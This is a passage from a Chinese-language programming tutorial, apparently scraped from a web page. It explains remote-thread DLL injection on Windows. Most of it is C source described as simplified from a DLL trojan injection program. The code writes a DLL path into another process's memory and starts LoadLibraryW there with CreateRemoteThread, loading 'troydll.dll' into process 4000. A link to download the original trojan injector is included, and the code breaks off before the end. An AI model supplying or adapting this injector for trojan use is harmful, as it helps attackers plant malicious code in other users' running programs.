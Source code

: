 　　（3）不能把本进程的指针作为CreateRemoteThread的参数，因为本进程的内存空间与远程进程的不一样。
　　以下<a target="_blank" href="http://dev.yesky.com/" class="bluekey"><font color="#003399">程序</font></a>由作者Shotgun的DLL木马注入程序简化而得（<a target="_blank" href="http://www.mydown.com/code/245/245731.html"><font color="#1a1ae6">单击此处下载</font></a>，在经典书籍《Windows核心编程》中我们也可以看到类似的例子），它将d盘根目录下的troydll.dll插入到ID为4000的进程中：
<table border="1" bgColor="#e3e3e3" align="center" width="90%" borderColor="#cccccc">
<tr>
<td>#include &lt;windows.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;stdio.h&gt;void CheckError ( int, int, char *); //出错处理函数

PDWORD pdwThreadId;
HANDLE hRemoteThread, hRemoteProcess;
DWORD fdwCreate, dwStackSize, dwRemoteProcessId;
PWSTR pszLibFileRemote=NULL;

void main(int argc,char **argv)
{
　int iReturnCode;
　char lpDllFullPathName[MAX_PATH];
　WCHAR pszLibFileName[MAX_PATH]={0};

　dwRemoteProcessId = 4000;
　strcpy(lpDllFullPathName, "d:\\troydll.dll");
　//将DLL文件全路径的ANSI码转换成UNICODE码
　iReturnCode = MultiByteToWideChar(CP_ACP, MB_ERR_INVALID_CHARS,
　　lpDllFullPathName, strlen(lpDllFullPathName),
　　pszLibFileName, MAX_PATH);
　CheckError(iReturnCode, 0, "MultByteToWideChar");
　//打开远程进程
　hRemoteProcess = OpenProcess(PROCESS_CREATE_THREAD | //允许创建线程
　　PROCESS_VM_OPERATION | //允许VM操作
　　PROCESS_VM_WRITE, //允许VM写
　　FALSE, dwRemoteProcessId );
　CheckError( (int) hRemoteProcess, NULL, "Remote Process not Exist or Access Denied!");
　//计算DLL路径名需要的内存空间
　int cb = (1 + lstrlenW(pszLibFileName)) * sizeof(WCHAR);
　pszLibFileRemote = (PWSTR) VirtualAllocEx( hRemoteProcess, NULL, cb, MEM_COMMIT, PAGE_READWRITE);
　CheckError((int)pszLibFileRemote, NULL, "VirtualAllocEx");
　//将DLL的路径名复制到远程进程的内存空间
　iReturnCode = WriteProcessMemory(hRemoteProcess, pszLibFileRemote, (PVOID) pszLibFileName, cb, NULL);
　CheckError(iReturnCode, false, "WriteProcessMemory");
　//计算LoadLibraryW的入口地址
　PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)
　　　GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
　CheckError((int)pfnStartAddr, NULL, "GetProcAddress");
　//启动远程线程，通过远程线程调用用户的DLL文件
　hRemoteThread = CreateRemoteThread( hRemoteProcess, NULL, 0, pfnStartAddr, pszLibFileRemote, 0, NULL);
　CheckError((int)hRemoteThread, NULL, "Create Remote Thread");
　//等待远程线程退出
　WaitForSingleObject(hRemoteThread, INFINITE);
　//清场处理
　if (pszLibFileRemote != NULL)
　{
　　VirtualFreeEx(hRemoteProcess, pszLibFileRemote, 0, MEM_RELEASE);
　}
　if (hRemoteThread != NULL)
　{
　　CloseHandle(hRemoteThread );
　}
　if (hRemoteProcess!= NULL)
　{
　　CloseHandle(hRemoteProcess);